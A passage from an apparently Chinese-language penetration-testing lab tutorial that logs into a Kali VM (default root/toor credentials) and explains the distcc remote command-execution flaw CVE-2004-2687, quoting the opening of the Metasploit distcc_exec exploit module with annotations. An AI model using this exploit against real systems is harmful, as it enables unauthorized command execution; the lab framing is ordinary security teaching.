 注意由于虚拟机启动需要时间，大概要等一分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479890676283.png-wm)

现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、 渗透测试

下面我们将会学习渗透测试。

### 3.1 渗透扫描

Distcc 服务漏洞原理：

> Distcc用于将大规模的代码放到网络服务器上的分布式编译，但是如果配置不严格，容易被滥用执行命令，该漏洞是 XCode 1.5 版本及其他版本的 distcc 2.x 版本配署对于服务器端口的访问不限制造成的。

简单的说就是服务对端口和执行的任务检查不够严格，从而造成攻击者可以利用分布式的编译任务执行自己想要执行的命令。

漏洞索引：

+ [CVE-2004-2687](http://www.cvedetails.com/cve/cve-2004-2687)
+ [OSVDB-13378](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec#)


漏洞攻击模块代码：

+ [exploit/unix/misc/distcc_exec](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/misc/distcc_exec.rb)


漏洞攻击模块代码解析：

```
...

# 创建 Metasploit 攻击模块类
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp
  
  # 初始化模块，设定攻击模块的名称，描述，作者，License及漏洞索引等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DistCC Daemon Command Execution',
      'Description'    => %q{
        This module uses a documented security weakness to execute
        arbitrary commands on any system running distccd.
      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-2687'],
          [ 'OSVDB', '13378' ],
          [ 'URL', 'http://distcc.samba.org/security.html'],

        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
```